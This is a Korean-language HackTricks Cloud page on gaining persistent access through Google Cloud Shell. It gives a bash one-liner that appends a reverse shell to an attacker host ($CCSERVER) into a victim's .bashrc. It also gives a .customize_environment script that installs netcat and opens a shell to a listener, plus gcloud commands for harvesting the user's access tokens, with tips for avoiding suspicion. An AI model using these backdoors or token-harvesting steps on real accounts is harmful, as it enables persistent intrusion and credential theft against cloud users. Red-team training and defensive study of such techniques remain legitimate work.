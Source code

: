 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

자세한 정보는 다음을 확인하세요:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/)은 브라우저에서 직접 클라우드 리소스에 대한 명령줄 액세스를 제공하며, 관련 비용이 없습니다.

**웹 콘솔**에서 또는 **`gcloud cloud-shell ssh`**를 실행하여 Google의 Cloud Shell에 액세스할 수 있습니다.

이 콘솔은 공격자에게 몇 가지 흥미로운 기능을 제공합니다:

1. **Google Cloud에 액세스할 수 있는 모든 Google 사용자**는 완전히 인증된 Cloud Shell 인스턴스에 액세스할 수 있습니다 (서비스 계정도 조직의 소유자일 경우 가능합니다).
2. 해당 인스턴스는 **활동이 없으면 최소 120일 동안 홈 디렉토리를 유지**합니다.
3. 해당 인스턴스의 활동을 **모니터링할 수 있는 조직의 기능이 없습니다**.

이는 기본적으로 공격자가 사용자의 홈 디렉토리에 백도어를 설치할 수 있으며, 사용자가 최소 120일마다 GC Shell에 연결하기만 하면 백도어가 살아남고 공격자는 매번 실행할 때마다 셸을 얻을 수 있음을 의미합니다:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

홈 폴더에 **`.customize_environment`**라는 또 다른 파일이 있으며, 이 파일이 존재하면 사용자가 **cloud shell**에 접근할 때마다 **실행됩니다** (이전 기술과 유사하게). 사용자가 "자주" cloud shell을 사용할 때 지속성을 유지하기 위해 이전 백도어 또는 다음과 같은 백도어를 삽입하십시오:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
**인증이 필요한 작업을 처음 수행할 때**, 사용자의 브라우저에 팝업 인증 창이 나타나는 것이 중요합니다. 이 창은 명령이 실행되기 전에 수락해야 합니다. 예상치 못한 팝업이 나타나면 의심을 불러일으킬 수 있으며 사용 중인 지속성 방법이 손상될 수 있습니다.
{% endhint %}

이것은 클라우드 셸에서 `gcloud projects list`를 실행한 후 (공격자로서) 브라우저 사용자 세션에서 본 팝업입니다:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

그러나 사용자가 클라우드 셸을 적극적으로 사용한 경우, 팝업이 나타나지 않으며 **사용자의 토큰을 수집할 수 있습니다**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH 연결이 설정되는 방법

기본적으로, 이 3개의 API 호출이 사용됩니다:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (로컬에서 생성한 공개 키를 추가하게 됩니다)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (인스턴스를 시작하게 됩니다)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (구글 클라우드 셸의 IP를 알려줍니다)

하지만 [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)에서 추가 정보를 찾을 수 있습니다.

## 참고자료

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
